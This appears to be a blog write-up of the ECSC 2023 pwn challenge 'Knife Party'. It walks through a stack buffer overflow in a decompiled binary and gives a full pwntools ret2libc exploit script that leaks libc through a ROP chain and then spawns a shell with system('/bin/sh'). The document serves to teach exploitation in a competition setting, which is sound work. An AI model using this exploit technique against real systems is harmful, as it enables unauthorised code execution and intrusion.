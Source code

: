 ```yaml
---
id: 15
title: "ECSC 2023: Knife Party"
subtitle: "ECSC 2023 Day 1: Pwn"
date: "2023.11.02"
tags: "ecsc, ecsc2023, c++, pwn, ctf"
---
```


## Foreword

I participated in ECSC 2023 as a guest team as part of Team Singapore with NUS Greyhats. The competition was quite chaotic due to many factors but in the end it was still a fun competitions thanks to all the interesting compeititors. This was a live on-site competition in Hamar, Norway so I was lucky enough to get a free holiday in the middle of my school term as well :)

I mainly did the pwn challenges relating to the stack because I'm not very good at heap pwn, so I left it up to my teammate.

This challenge is a pretty straight forward ret2libc challenge if you read through the decompiled code. It hides its vulnerabilities in a few different functions.

# Knife Party

We run `checksec` on the binary:
```bash
[*] '/mnt/e/ctf_archive/ecsc2023/d1/knifeparty/knife_party'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

It has Full RELRO and NX enabled, but no canary or PIE.

First we open the binary in IDA and we see that it calls 3 functions, `setup()`, `banner()` and `forge()`. A quick sift through shows us that `forge()` is the function that handles the menu. Decompiling `forge()` yields the following:

```c++
__int64 forge()
{
  __int64 num; // rax

  printf("Choose class of knife!\n\n1. Sword\n2. Bat\n3. Knife\n\n>> ");
  num = read_num();
  if ( num == 2 )
    return forge_bat();
  if ( num == 3 )
    forge_knife();
  if ( num != 1 )
  {
    error("No such class! Come back when you are ready!\n");
    exit(22);
  }
  return forge_sword();
}
```

Testing the binary against inputs hints us that `forge_knife()` does nothing of value, `forge_bat()` and `forge_sword()` are the functions we are interested in. Both of the functions have a buffer overflow vulnerability when we check it in IDA. We focus on `forge_sword()`:

```c++
int forge_sword()
{
  __int64 buf[4]; // [rsp+0h] [rbp-30h] BYREF
  unsigned __int64 num; // [rsp+20h] [rbp-10h]
  unsigned __int64 i; // [rsp+28h] [rbp-8h]

  memset(buf, 0, sizeof(buf));
  printf("\nThe Sword class is pretty accurate and fast when carving a pumpkin!\n\nChoose length of sword (1-5): ");
  num = read_num();
  if ( num - 1 > 4 )
    return error("Invalid length! Come back when you are ready!\n");
  puts(asc_40104F);
  for ( i = 0LL; i <= num; ++i )
    puts(&byte_401056);
  puts(asc_401060);
  printf(
    "\n%s[+] Here is your sword! Do you want to give it a name for the contest?\n\n>> %s",
    "\x1B[1;32m",
    "\x1B[1;34m");
  read(0, buf, 0x120uLL);
  return puts("\nBest of luck!!");
}
```

`buf` is initialized with size `0x30` but at the end before `return`, `read(0, buf, 0x120uLL)` allows a `0x120uLL` size read into the buffer. This means we can attempt a ret2libc attack.

The offset for the bof would be `0x30` (buffer size) + `0x8` (`$rbp`) which gives us `0x38`. We pad `0x38` and do a ret2libc attack, building a ROP chain to leak the lilbc addresses. We then redo the same thing but with the leaked libc offset to find `system` and `/bin/sh`. Build and execute the next ROP chain to pop shell.

pwntools automates the process for us.
```py
from pwn import *
from exploit import *

# set exploit source, context binary, context log_level, libc
elf = context.binary = ELF("./knife_party", checksec=False)
# context.log_level = 'debug'
libc = ELF("./glibc/libc.so.6")

# Run binary 1st time
p = exploit_source("./knife_party", "localhost")

rop = ROP(elf)

p.sendlineafter(b'>> ', "1")
p.recvuntil(": ")
p.sendline("5")
p.recvuntil(">> ")

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

payload = flat([{0x38: p64(pop_rdi)},
                elf.got['puts'],
                elf.symbols['puts'],
                elf.symbols['main']])

# leak libc address and calculate libc base
p.sendline(payload)
p.recvuntil(b'Best of luck!!\n')

libc.address = u64(p.recvline().strip().ljust(8,b'\x00')) - libc.symbols['puts']
success(f"{hex(libc.address) =}")

# ret2libc
p.sendlineafter(b'>> ', "1")
p.recvuntil(": ")
p.sendline("5")
p.recvuntil(">> ")

rop2 = ROP(libc)

libc_ret = rop2.find_gadget(['ret'])[0]
rop2.raw(libc_ret)
rop2.system(next(libc.search(b'/bin/sh')))

payload2 = flat({0x38: rop2.chain()})

p.sendline(payload2)

p.interactive()
```

Run the code on remote, pop shell, then simply `cat flag.txt` for the flag.